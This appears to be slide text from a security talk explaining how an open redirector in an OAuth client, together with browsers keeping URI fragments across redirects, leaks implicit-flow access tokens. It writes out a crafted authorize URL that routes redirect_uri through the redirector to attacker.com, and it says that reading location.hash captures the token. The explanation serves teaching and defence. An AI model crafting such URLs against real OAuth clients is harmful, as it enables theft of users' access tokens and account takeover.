

Let’s combine what we have discussed so far:

The majority of browsers do preserve the original URI fragment on redirect.
Open redirector is an underestimated class of vulnerability.
The discussion about “too loose” redirect_uri registration.

The attacker can craft a URI like this:
https://oauthprovider.com/authorize?response_type=token&client_id=CLIENT_ID&scope=SCOPES&state=STATE&redirect_uri=htps://yourouauthclient.com/redirector?goto=https://attacker.com

If the resource owner has already authorized the application using TOFU(Trust on First use), or if they can be convinced to authorize the application again, the resource owner’s user agent is redirected to the passed-in redirect_uri with the access_token appended in the URI fragment.
https://yourouauthclient.com/redirector?goto=https://attacker.com#access_token=2uuiub33iikik3b3jhkkkiioaA
At this point, the open redirect in the client application forwards the user agent to the attacker’s website. Since URI fragments survive redirects in most browsers, the final landing page will be:
https://attacker.com#access_token=2jgkhkljlk23jhlkjlkj3jhlkjjkioA

Now it’s trivial for the attacker to steal the access token. Indeed, it’s enough to read the delivered location.hash using JavaScript code.